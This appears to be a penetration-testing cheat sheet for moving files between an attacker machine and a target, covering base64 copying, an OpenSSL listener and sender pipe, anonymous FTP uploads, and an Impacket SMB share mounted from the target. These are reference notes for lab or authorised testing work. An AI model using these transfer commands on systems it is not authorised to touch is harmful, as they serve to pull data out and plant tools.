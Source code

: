 ## Base64 Transfer (For Small Files)

```bash
# On source
base64 -w 0 /path/to/file

# Copy the output, then on destination
echo "BASE64_STRING" | base64 -d > file
```

## OpenSSL Encrypted Transfer

```bash
# Receiver
openssl s_server -quiet -accept 4433 -cert /path/to/cert.pem -key /path/to/key.pem > incoming_file

# Sender
cat /path/to/file | openssl s_client -quiet -connect 10.10.10.10:4433
```

## FTP Transfer

```bash
# Start FTP server (if pyftpdlib is installed)
python3 -m pyftpdlib -p 21 -w

# FTP client commands:
ftp 10.10.10.10
user anonymous anonymous
binary
put file_to_upload
get file_to_download
bye
```

## SMB Transfers

### Impacket SMB Server (on attacker)
```bash
impacket-smbserver share -smb2support /path/to/files
```

### Mount SMB share (on target)
```bash
# Mount
mount -t cifs //10.10.10.10/share /mnt -o username=user,password=pass

# Access without mounting (Linux)
smbclient //10.10.10.10/share -U user
```
